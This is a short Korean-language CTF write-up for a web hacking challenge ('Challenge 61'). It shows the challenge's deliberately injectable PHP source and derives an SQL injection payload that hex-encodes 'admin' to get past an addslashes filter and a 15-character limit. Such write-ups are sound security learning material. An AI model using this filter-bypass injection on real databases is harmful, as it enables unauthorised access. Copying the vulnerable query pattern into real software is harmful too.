


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**


# **Write-Up**

view-source를 클릭하면 id에 들어가는 값이 컬럼이 된다.

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  $db = dbconnect();
  if(!$_GET['id']) $_GET['id']="guest";
  echo "<html><head><title>Challenge 61</title></head><body>";
  echo "<a href=./?view_source=1>view-source</a><hr>";
  $_GET['id'] = addslashes($_GET['id']);
  if(preg_match("/\(|\)|select|from|,|by|\./i",$_GET['id'])) exit("Access Denied");
  if(strlen($_GET['id'])>15) exit("Access Denied");
  $result = mysqli_fetch_array(mysqli_query($db,"select {$_GET['id']} from chall61 order by id desc limit 1"));
  echo "<b>{$result['id']}</b><br>";
  if($result['id'] == "admin") solve(61);
  echo "</body></html>";
?>
```

SELECT 'admin' as id를 넣으면 id컬럼명에 데이터는 admin이 들어간다.



따옴표를 넣으면 addslashes에 의해서 백슬래쉬가 앞에 붙어 SQL Error가 날 것이다. 따라서 hex값으로 바꿔보자.

```python
query = '0x'+'admin'.encode().hex()+' as id'
print(query, len(query))

[Output]
0x61646d696e as id 18
```

하지만 글자 수가 18자리로서 제한된 글자 수를 초과한다. 따라서 as 를 빼면 15자리로 서 모든 조건을 만족할 수 있다.

점수를 획득하자.

